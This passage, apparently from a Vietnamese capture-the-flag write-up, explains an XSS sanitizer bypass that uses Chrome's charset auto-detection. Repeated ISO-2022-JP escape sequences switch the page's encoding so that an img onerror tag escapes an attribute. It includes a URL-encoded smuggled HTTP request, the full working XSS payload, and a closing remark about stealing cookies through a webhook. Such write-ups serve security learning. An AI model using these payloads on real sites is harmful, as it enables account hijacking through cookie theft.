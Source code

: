 ```flag%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%2F5000%0APassword%3A%20admin%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2014%0A%0Ausername%3Dadmin```
* Vậy làm sao để mình exploit vấn đề này. Sau khi đọc blog của sonarsource về missang charset https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/ thì mình đã có ý tưởng để bypass hàm sanitize. Giả sử payload của mình trong các bài XSS cơ bản là ```<img src=x onerror=alert(1) />``` sẽ bị sanitize nhưng khi ta truyền như thế này ```<a id="><img src=a onerror=alert(1)>">``` thì trong nhiều bộ encoding khác sẽ encode thành ```<a id=\"><img src=a onerror=alert(1)>\">``` và browser sẽ hiểu rằng đây là một id string thông thường nhưng khi ta sử dụng bộ encoding ISO-JP-2022 thì sẽ trờ thành ```<a id=¥"><img src=a onerror=alert(1)>¥">``` và tag img đã thoát ra ngoài có thể thực thi. Từ đó ta có thể element a được tách ra thành 2 element và ta có thể bypass được sanitize.
* Ok vấn đề thứ 2 là khi mình check charset của trang web thì mình nhận được kết quả là windows-1252 chứ không phải là ISO-JP-2022 mà ta mong muốn. 

![image](./images/image77.png)

* Mình có thử tìm hiểu thì khi trang web không có charset encoding thì browser sẽ tự detect xem charset nào được nên sử dụng và trường hợp ở đây là windows-1252. Mình có ngó qua source và frontend thì có chỗ sau là chứa ký tự đặc biệt nên chắc browser detect ra. 

![image](./images/image78.png)

* Vậy làm sao để chuyển đổi charset ? Mình có thử đọc qua source của chromium mới biết có cái gọi là boost dùng để tăng value của bộ encode. Sau đó browser sẽ dựa vào bộ nào có value cao nhất sẽ sử dụng cho web.

![image](./images/image79.png)

![image](./images/image80.png)

* Vậy ý tưởng của mình là sẽ spam cho bộ ISO-JP-2022 lên để chuyển đổi. Nhưng bằng cách nào? thì như hình trên chỉ cần trong web có các ký tự <esc>(B, <esc>(J, <esc>\$@, <esc>\$B là sẽ boost được điểm của ISO-JP-2022. Các ký tự trên là escape character để chuyển đổi các bộ charsets. Từ đó ý tưởng của mình là swap 2 bộ charset liên tục sao cho tăng điẻm lên nhưng ở đây phải sử dụng <esc>(B cuối cùng để sử dụng ASCII. Qua đó mình có thể truyền vào payload sau để boost ở dây mình xài <esc>\$@

`
<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id=">
`

Sau khi sử dụng payload trên thì mình đã chuyển đổi được encoding sang ISO-JP-2022


    
![image](./images/image81.png)

Kết hợp với payload XSS trên thì mình có payload sau 
    
`
<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="><img src=a onerror=alert(1)>">
`

Nhập vào và mình đã thành công XSS trang web và cho nó hiện alert(1)
    
![image](./images/image82.png)

Tiếp theo công việc đơn giản là report link đã được thêm vào fetch webhook để lấy cookie thôi
```